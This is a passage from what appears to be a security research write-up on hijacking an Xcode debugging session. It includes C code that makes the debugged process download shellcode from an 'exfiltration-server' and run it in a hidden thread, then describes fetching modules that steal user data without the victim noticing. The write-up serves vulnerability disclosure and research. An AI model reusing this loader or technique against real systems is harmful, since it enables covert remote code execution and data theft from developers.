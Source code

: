 ```
void *payload = NULL;
mach_port_t task = mach_task_self();
size_t size = ((mach_vm_offset_t)(len) + vm_page_mask) & ~((signed)vm_page_mask);
vm_allocate(task, (vm_address_t *)&payload, size, VM_FLAGS_ANYWHERE);

// receive payload and write it to the allocated buffer
recv(fd, payload, len, MSG_WAITALL);

// set payload memory mapping as r^x
vm_protect(task, (vm_address_t)payload, size, 0, VM_PROT_READ | VM_PROT_EXECUTE);

// prepare args
void **args = (void **)malloc(sizeof(void *) * 5);
args[0] = (void *)payload;
args[1] = (void *)fd;
args[2] = (void *)strdup(SESSION_ID);
args[3] = (void *)dlopen;
args[4] = (void *)dlsym;

// execute payload in a new thread
void *(*payload_entry)(void *) = (void *(*)(void *))PTRAUTH_SIGN_UNAUTHENTICATED_FUNC(payload);
pthread_t thread;
pthread_create(&thread, NULL, payload_entry, args);

```

The code above will make the process connect to the `exfiltration-server`, receive the prepared shellcode payload from it, put it into a newly-allocate memory page, and then execute it in a new thread which will effectively make it persistent for as long as the debugged process is running.

### Process continuation and payload execution
In order to trigger the execution of the received payload shellcode in a new thread, we have to continue the execution of the debugged process first. As described in the previous section, the exploit - which is currently proxying the attacker-debugserver packets - is monitoring for a `detach` packet coming from the attacker. Once it receives it, without forwarding the actual detach to debugserver, it will send a simple `OK` packet back to the attacking `lldb` client and then send a `continue` packet to debugserver which will continue execution of the debugged process, and resume the original session.

From the victim's point of view, this is practically not noticeable and Xcode will happily continue the debugging session as if nothing has happened, but with the difference that our new thread will now start executing the payload.

Once the payload shellcode executes it will fetch additional 'modules' from the `exfiltration-server` that will then perform the exfiltration of different categories of sensitive user data. Modules consist of precompiled code that will be mapped to memory, made executable, and then executed in the context of the debugged process, while on the client side a python companion handles receiving the exfiltrated data through the `exfiltration-server`.

### Payload modules
We created a few modules that demonstrate the extraction capabilities.
